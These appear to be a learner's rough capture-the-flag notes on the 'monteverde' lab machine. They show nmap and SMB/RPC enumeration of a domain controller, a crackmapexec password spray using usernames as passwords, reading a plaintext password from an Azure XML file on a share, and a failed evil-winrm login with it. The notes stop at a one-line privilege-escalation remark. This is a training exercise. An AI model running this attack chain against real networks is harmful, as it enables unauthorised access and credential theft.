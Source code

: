 # monteverde

─$ sudo nmap 10.129.58.93
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-17 19:50 EDT
Nmap scan report for 10.129.58.93
Host is up (0.24s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl

nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.172

└─$ nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -sC -sV -Pn 10.129.58.93
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-17 19:56 EDT
Nmap scan report for 10.129.58.93
Host is up (0.32s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-17 23:56:23Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-08-17T23:56:39
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.39 seconds

# smb enumeration 

failed

──(kali㉿kali)-[~/Downloads]
└─$ smbclient -N -L //10.129.58.93
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.58.93 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
                                                                                                                      
┌──(kali㉿kali)-[~/Downloads]
└─$ ping 10.129.58.93 
PING 10.129.58.93 (10.129.58.93) 56(84) bytes of data.
64 bytes from 10.129.58.93: icmp_seq=1 ttl=127 time=236 ms
64 bytes from 10.129.58.93: icmp_seq=2 ttl=127 time=181 ms
^C
--- 10.129.58.93 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1004ms
rtt min/avg/max/mdev = 181.053/208.385/235.717/27.332 ms
                                                                                                                      
┌──(kali㉿kali)-[~/Downloads]
└─$ smbmap -H 10.129.58.93        
[+] IP: 10.129.58.93:445	Name: 10.129.58.93                                      
                                                                                                                      
┌──(kali㉿kali)-[~/Downloads]
└─$ smbmap -H 10.129.58.93 -i 0xdf
usage: smbmap [-h] (-H HOST | --host-file FILE) [-u USERNAME] [-p PASSWORD] [-s SHARE] [-d DOMAIN] [-P PORT] [-v]
              [--admin] [-x COMMAND] [--mode CMDMODE] [-L | -R [PATH] | -r [PATH]] [-A PATTERN | -g] [--dir-only]
              [--no-write-check] [-q] [--depth DEPTH] [--exclude SHARE [SHARE ...]] [-F PATTERN]
              [--search-path PATH] [--search-timeout TIMEOUT] [--download PATH] [--upload SRC DST]
              [--delete PATH TO FILE] [--skip]
smbmap: error: unrecognized arguments: -i 0xdf
                                                                                                                      
┌──(kali㉿kali)-[~/Downloads]
└─$ smbmap -H 10.129.58.93 -u 0xdf
[!] Authentication error on 10.129.58.93


# rpc enumeration

┌──(kali㉿kali)-[~/Downloads]
└─$ rpcclient -U "" -N 10.129.58.93
rpcclient $> querydispinfo
index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2	Name: AAD_987d7f2f57d2	Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos	Name: Dimitris Galanos	Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope	Name: Mike Hope	Desc: (null)
index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary	Name: Ray O'Leary	Desc: (null)
index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs	Name: SABatchJobs	Desc: (null)
index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan	Name: Sally Morgan	Desc: (null)
index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata	Name: svc-ata	Desc: (null)
index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec	Name: svc-bexec	Desc: (null)
index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp	Name: svc-netapp	Desc: (null)

# crackmapexec password spraying

└─$ crackmapexec smb 10.129.58.93 -u users -p users --continue-on-success
SMB         10.129.58.93    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.129.58.93    445    MONTEVERDE       [-] MEGABANK.LOCAL\users:users STATUS_LOGON_FAILURE 


he enumerated all users with same username as passwords

# smbmap with credentials

┌──(kali㉿kali)-[~/Downloads]
└─$ smbmap -H 10.129.58.93 -u SABatchJobs -p SABatchJobs
[+] IP: 10.129.58.93:445	Name: 10.129.58.93                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	azure_uploads                                     	READ ONLY	
	C$                                                	NO ACCESS	Default share
	E$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
	users$                                            	READ ONLY	
                                                                        
The term SYSVOL refers to a set of files and folders that reside on the local hard disk of each domain controller in a domain and that are replicated by the File Replication service (FRS). Network clients access the contents of the SYSVOL tree by using the following shared folders: NETLOGON. SYSVOL.


azure xml contains a password inside user$

<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>

# evil WINRM not working

┌──(root㉿kali)-[/home/kali/Downloads]
└─# ruby ./evil-winrm-3.4/evil-winrm.rb -i 10.129.58.93 -u mhope -p '4n0therD4y@n0th3r$'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type OpenSSL::Digest::DigestError happened, message is Digest initialization failed: initialization error

Error: Exiting with code 1


# privesc

in order to get administrator we pull configuration file of the user for replication which is accessible to the naive user




